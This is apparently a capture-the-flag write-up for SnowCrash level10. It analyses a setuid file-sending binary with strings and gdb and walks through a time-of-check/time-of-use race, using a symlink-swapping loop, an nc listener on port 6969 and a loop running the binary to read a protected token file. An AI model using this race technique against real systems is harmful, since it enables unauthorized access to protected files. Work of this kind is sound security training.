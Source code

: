 #SnowCrash Level10

A simple strings would give us the following :
```
level10@SnowCrash:~$ strings level10
	[...]
	%s file host
	sends file to host if you have access to it
	Connecting to %s:6969 ..
	Unable to connect to host %s
	.*( )*.
	Unable to write banner to host %s
	Connected!
	Sending file ..
	Damn. Unable to open file
	Unable to read from file: %s
	wrote file!
	You don't have access to %s
	[...]
```

So basically the program tries to open a file and then send it.
Let's see functions using gdb.
```
level10@SnowCrash:~$ gdb level10
(gdb) info functions
	[...]
	0x080485e0  access
	[...]
```

After some long searching. I found out that access has a vulnerability.
TLDR: In the time between trying to access() and after. A small window opens to change the file.
It is known as Race Condition.
The way we can do it is as the following.
Have an infinite loop. Have a useless file. Symlink it to another file.
Delete that file and at the same time make a symlink to the token in the home directory.
Do it all over again in the loop.

In another terminal we run the level10 on that symlink we create. and we need to listen on port 6969.
Theorically we change the symlinked file in that brief moment after access so we can read what's on token.
It is known as well as Time To Check Time To Use aka toctou

So chall we ?
```
level10@SnowCrash:~$ touch uselss_file
level10@SnowCrash:~$ touch to_read
level10@SnowCrash:~$ sh exploit.sh(you will find it with this writeup.)
```

Then start listenning on port 6969
```
level10@SnowCrash:~$ nc -lk 6969 >> /tmp/level10/to_read
```

And now an infinite loop for our level10 binary.
```
level10@SnowCrash:~$ while true; do ./level10 /tmp/level10/symlink; done
```
